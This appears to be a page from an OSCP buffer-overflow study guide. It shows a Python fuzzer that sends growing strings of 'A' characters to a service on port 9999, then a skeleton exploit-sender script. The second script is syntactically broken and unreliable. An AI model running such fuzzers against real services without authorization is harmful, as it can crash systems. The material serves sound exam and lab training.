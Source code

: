 ```Python
#!/usr/bin/python 
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Script: https://github.com/Lunox-code/OSCP-Preparation-Guide/blob/main/Buffer%20Overflow/fuzzerV1.py

### Skeleton Version 2

```Python
#!/usr/bin/python 
import socket,sys

ip = '127.0.0.1'
port = 9999
buffer = []

# Create an array of increasing length buffer strings.
    try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
    except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
    finally:
	s.close()
```
